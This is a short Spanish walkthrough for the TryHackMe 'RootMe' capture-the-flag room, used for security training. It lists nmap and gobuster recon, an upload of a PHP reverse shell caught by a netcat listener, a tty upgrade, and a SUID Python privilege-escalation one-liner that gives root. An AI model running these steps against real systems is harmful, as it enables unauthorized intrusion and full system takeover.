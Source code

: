 # Sala RootMe - Guía Rápida de Pasos y Comandos

Pasos para completar la sala "RootMe" de TryHackMe.

## 1. Reconocimiento

*   Realizar un escaneo inicial de puertos y servicios:
    ```bash
    nmap -sV $TARGET
    ```
*   Ejecutar un escaneo más detallado con enumeración mediante scripts, guardando la salida:
    ```bash
    nmap -sC -sV -oA rootme.txt $TARGET
    ```
*   Descubrir directorios web para encontrar puntos de subida:
    ```bash
    gobuster dir --url http://10.10.XXX.XXX/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
    ```
    *(Esto debería identificar un panel de subida y el directorio `/uploads/`)*

## 2. Obtener una Shell

*   Preparar una reverse shell en PHP (de PentestMonkey: [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
*   Actualizar el script de la shell con tu IP de `tun0` y el puerto `1234`.
*   Subir la shell a través del panel web.
*   Iniciar un listener:
    ```bash
    nc -l -v -n -p 1234
    ```
*   Activar la shell accediendo al archivo subido en `/uploads/`.
*   Mejorar la shell básica:
    ```bash
    python -c "import pty; pty.spawn('/bin/bash')"
    ```
*   Encontrar la bandera de usuario:
    ```bash
    find / -type f -name user.txt 2>/dev/null
    ```
    *(Luego usar `cat` sobre el archivo)*

## 3. Escalar Privilegios

*   Buscar binarios SUID:
    ```bash
    find / -type f -perm -4000 2>/dev/null
    ```
    *(Identificar `/usr/bin/python` como SUID)*
*   Usar GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para el exploit SUID de Python.
*   Navegar a `/usr/bin` y ejecutar:
    ```bash
    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
*   Verificar el acceso root:
    ```bash
    whoami
    ```
    *(El resultado debe ser `root`)*
*   Localizar y leer `root.txt`.
